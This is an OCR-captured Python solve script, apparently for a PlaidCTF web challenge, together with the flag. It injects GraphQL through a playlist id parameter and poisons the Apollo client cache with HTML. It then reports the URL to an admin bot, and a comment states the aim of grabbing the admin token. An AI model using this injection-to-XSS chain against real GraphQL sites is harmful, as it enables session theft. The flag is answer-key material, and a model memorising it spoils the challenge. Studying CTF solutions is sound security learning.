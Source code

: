 ```py
    host
    + "/playlist/peko?id[kind]=Name&id[value]="
    + quote(
        """"%s") { 
        id
        name
        description: rawDescription
        episodes {
            id
            name
        }
        owner {
            id
            name
        }
    }
    pl2: playlist(id: "%s") {
        id
        name
        description: owner {
          __html: name
        }
        url: name
        rating: name
        ratingCount: name
        show: owner {
            owner: shows {
                id
            }
        }
    }
    pl2: episode(id:"%s") @client
    dummy: playlist(id: "00000000-0000-0000-0000-000000000000"
"""
        % (playlist_id, playlist_id, random_episode_id)
    )
)
# apollo client quriks caused this:
# cache.data.data.ROOT_QUERY['episode({"id":"..."})'] = {"id": "...", "name": "...", "description": {"__html": "..."}, ...}
print(url)

print(
    graphql(
        """
mutation($url: String!) {
    report(url: $url)
}
""",
        {"url": url},
        token=token,
    )
)

# grab admin token and `mutation { flag }`
# PCTF{say_what_you_will_about_these_sites_but_they_wont_pull_a_warner_bros_discovery_on_you_and_yeet_37_shows_into_the_void_f0e0079af5e5b05edbf5d248}

```
